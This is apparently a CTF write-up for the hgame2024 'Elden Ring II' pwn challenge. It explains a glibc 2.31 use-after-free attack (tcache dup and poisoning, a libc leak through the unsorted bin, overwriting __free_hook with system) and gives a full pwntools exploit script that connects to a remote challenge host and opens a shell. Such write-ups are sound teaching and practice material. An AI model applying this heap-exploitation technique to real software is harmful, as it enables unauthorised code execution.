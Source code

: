 ```yaml
---
title: hgame2024 week2 - Elden Ring II
date: 2024/2/15 16:00:00
tags:
    - heap - tcache
    - libc2.31
excerpt: 利用glibc 2.31中的UAF漏洞，通过tcache dup和poisoning获得libc并执行system("/bin/sh")。
---
```


{% note %}
write some notes
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

> 第二周上来4道堆题

glibc 2.31，有uaf，考虑tcache dup + poisoning  
最大尺寸拿得到unsorted bin，从里面拿到libc，然后打freeHook

要注意的是想tcache dup，需要把`key`写成其他值，此外还要free一个其他堆块放置top chunk合并

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering2')
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 31825)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    addn(0, 0x98)
    addn(1, 0x98)
    addn(2, 0x98)
    addn(3, 0x98)
    addn(4, 0x98)
    addn(5, 0x98)
    addn(6, 0x98)
    addn(7, 0x98)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2)
    deln(1)
    deln(0) # 1-7 in tcache, 0 in unsorted bin
    ret = show(0)
    
    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    print(f'\x1b[33mcheck libcBase: {hex(libcBase)}\x1b[0m')
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    addn(8, 0x18)
    addn(9, 0x38) # prevent chunk from being merged into top chunk
    deln(8)
    edit(8, p64(freeHook) + b'\n')
    deln(8) # make 2 bins in tcache
    edit(8, p64(freeHook) + b'\n')
    addn(10, 0x18) # get chunk 8
    addn(11, 0x18) # get freeHook
    edit(11, p64(system) + b'\n')
    edit(9, b'/bin/sh\0\n')
    deln(9)

    sh.clean()
    sh.interactive()
```


